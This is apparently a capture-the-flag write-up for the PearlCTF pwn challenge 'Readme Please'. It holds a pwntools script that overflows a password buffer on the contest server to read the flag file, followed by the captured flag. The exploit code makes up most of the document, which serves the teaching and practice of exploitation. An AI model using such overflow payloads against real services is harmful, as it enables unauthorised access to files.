 # Readme Please

>I made a very secure file reading service.

https://pearlctf.in/files/readme_src.zip

nc readme-please.ctf.pearlctf.in 30039


## solve
```
from pwn import *

elf = ELF("./main", checksec=False)
context.binary = elf

p = remote("readme-please.ctf.pearlctf.in", 30039)

p.sendlineafter(b"file name:", b"files/flag.txt")

payload = b"A" * ((0x108 - 0x98) + 1)
p.sendlineafter(b"Enter password: ", payload)

p.sendlineafter(b"file name:", b"files/flag.txt")

payload = b"A"
p.sendlineafter(b"Enter password: ", payload)

print(p.readuntil(b"}").decode())
```

## flag
`pearl{f1l3_d3script0rs_4r3_c00l}`